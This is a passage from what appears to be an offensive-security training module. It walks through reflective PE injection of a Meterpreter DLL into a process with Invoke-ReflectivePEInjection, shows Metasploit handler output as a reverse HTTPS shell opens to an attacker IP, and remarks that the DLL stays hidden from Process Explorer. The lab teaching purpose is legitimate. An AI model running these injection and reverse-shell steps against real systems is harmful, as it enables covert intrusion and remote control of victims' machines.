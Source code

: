 ```
PS C:\Users\offsec> Import-Module C:\Tools\Invoke-ReflectivePEInjection.ps1
```

> Listing 27 - Importing Invoke-ReflectivePEInjection

Next, we'll supply the byte array (**-PEBytes**) and process ID (**-ProcId**) to execute the script.

```
PS C:\Users\offsec> Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

> Listing 28 - Executing Invoke-ReflectivePEInjection

This loads the DLL in memory and provides us with a reverse Meterpreter shell:

```
msf5 exploit(multi/handler) > exploit

[*] Started HTTPS reverse handler on https://192.168.119.120:443
[*] https://192.168.119.120:443 handling request from 192.168.120.11; (UUID: pm1qmw8u) Staging x64 payload (207449 bytes) ...
[*] Meterpreter session 1 opened (192.168.119.120:443 -> 192.168.120.11:49678)

meterpreter > 
```

> Listing 29 - Getting a reverse shell

This script produces an error, as shown below. This does not affect the functionality of the script and can be ignored.

```
VoidFunc couldn't be found in the DLL
At C:\Tools\Invoke-ReflectivePEInjection.ps1:2823 char:5
+                 Throw "VoidFunc couldn't be found in the DLL"
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : OperationStopped: (VoidFunc couldn't be found in the DLL:String) [], RuntimeException
    + FullyQualifiedErrorId : VoidFunc couldn't be found in the DLL
```

> Listing 30 - Error when executing Invoke-ReflectivePEInjection

Note that the public version of this script fails on versions of Windows 10 1803 or newer due to the multiple instances of _GetProcAddress_ in _UnsafeNativeMethods_. Luckily, we have already solved this issue previously and the version of the script located on the Windows 11 vm has been updated to avoid this.

We'll also observe that **met.dll** is not shown in the loaded DLL listing of Process Explorer. Excellent!

## Resources

Some of the labs require you to start the target machine(s) below.

Please note that the IP addresses assigned to your target machines may not match those referenced in the Module text and video.
